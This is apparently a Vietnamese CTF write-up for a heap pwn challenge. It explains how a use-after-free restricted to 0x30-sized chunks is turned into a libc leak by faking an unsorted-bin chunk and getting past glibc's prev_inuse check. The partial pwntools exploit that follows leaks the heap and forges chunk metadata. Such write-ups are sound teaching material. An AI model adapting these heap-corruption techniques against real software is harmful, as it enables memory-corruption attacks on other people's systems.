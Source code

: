- libc ở bài này tương tự bài trước , ta cũng có `bug` tương tự bài trước là `uaf` nhưng điều khó khăn ở đây là ta chỉ có thể malloc với size là 0x30 , khó khăn nằm ở chỗ `leak libc`
- ta sẽ không thể malloc 1 size lớn rồi `free` nó vào unsorted-bin hoặc là free 8 chunk và chunk thứ 8 vào unsorted-bin vì nó sẽ rơi vào `fast-bin` , ngoài ra có điều mà mình vừa tìm hiểu được là có 1 variable chứa số lượng tối đa mà chunk có thể đưa vào fastbin `global_max_fast` và giá trị này thường là 0x80 , nếu ta có thể đặt giá trị này lớn hơn 0x80 ta có thể đặt 1 chunk ra khỏi `main_arena` nhưng cái này có vẻ hơi lạc đề =))) 

https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507

- và mình nhận ra rằng ta có thể sửa đổi bất cứ thứ gì trong heap nên điều hợp lí nhất là ta sẽ fake 1 chunk với size là `unsorted-bin` và `free` để lấy `libc` 

- nhưng sau 1 lúc fake thì nó nhận lại lỗi `double free or corruption (!prev)` , ở đây có 1 check trong libc 2.27 , nó sẽ kiểm tra xem prev_inuse của chunk kế tiếp có được set chưa?

```c
nextchunk = chunk_at_offset(p, size);
...
if (__glibc_unlikely (!prev_inuse(nextchunk)))
    malloc_printerr ("double free or corruption (!prev)");

```

- vì vậy đơn giản ta sẽ fake thêm cho nó và thành công leak libc -> target cuối là overwrite `hook` vì libc version là 2.31

```python
def menu(option):
    sla(b"> ", str(option).encode())


def add():
    menu(1)


def free(idx):
    menu(2)
    sla(b"Index to free: ", str(idx).encode())


def edit(data, idx):
    menu(4)
    sla(b"edit: ", str(idx).encode())
    sa(b"data: ", data)


def show(idx):
    menu(3)
    sla(b"view: ", str(idx).encode())


def exploit():
    for i in range(20):
        add()

    free(1)
    free(0)
    show(0)
    heap_leak = u64(r(6).ljust(8, b"\x00")) - 0x2E0
    info(f"heap: {hex(heap_leak)}")
    add()
    add()
    free(0)
    edit(b"a" * 9, 0)
    free(0)
    edit(p64(0) + p64(0x421) + p64(0) * 2, 1)
```